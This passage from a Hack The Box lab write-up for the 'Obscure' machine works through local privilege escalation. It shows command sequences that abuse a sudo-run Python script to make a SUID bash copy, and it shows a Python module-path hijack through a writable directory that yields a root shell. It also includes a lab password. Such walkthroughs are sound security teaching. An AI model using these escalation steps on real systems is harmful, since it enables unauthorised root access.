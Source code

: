     
    
    robert@obscure:~$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    Enter username: robert
    Enter password: SecThruObsFTW
    Authed!
    robert@Obscure$ -u root cp /bin/bash /tmp/.0xdf
    Output: 
    
    robert@Obscure$ -u root chmod 4755 /tmp/.0xdf
    Output: 
    
    robert@Obscure$ ^CTraceback (most recent call last):
      File "/home/robert/BetterSSH/BetterSSH.py", line 57, in <module>
        command = input(session['user'] + "@Obscure$ ")
    KeyboardInterrupt
    

Now run it with `-p` to keep priv:

    
    
    robert@obscure:/tmp$ ./.0xdf -p
    .0xdf-4.4# id
    uid=1000(robert) gid=1000(robert) euid=0(root) groups=1000(robert),4(adm),24(cdrom),30(dip),46(plugdev)
    

### Patched Path 3: PATH Hijack

At the time of release, the `BetterSSH` directory was writable by robert:

    
    
    robert@obscure:~$ ls -ld BetterSSH/
    drwxrwxrwx 2 root root 4096 Dec  2 09:47 BetterSSH/
    

Python always tries to load libraries from the directory containing the main
file first, before checking the Python directories. So if I create a
`subprocess.py` in that directory that is just a shell, I can then run
`BetterSSH` and get a root shell:

    
    
    robert@obscure:~/BetterSSH$ echo 'import os; os.system("/bin/bash")' > subprocess.py
    robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
    root@obscure:~/BetterSSH# id
    uid=0(root) gid=0(root) groups=0(root)
    

This was patched at some point between December 2019 and now (hopefully
someday HTB will keep a [public patch
log](https://www.hackthebox.eu/home/ideas/167?page=1)) by removing write
permissions from the `BetterSSH` directory for non-root users.

### Patched Path 4: lxd

At the time of release, robert was in the lxd group:

    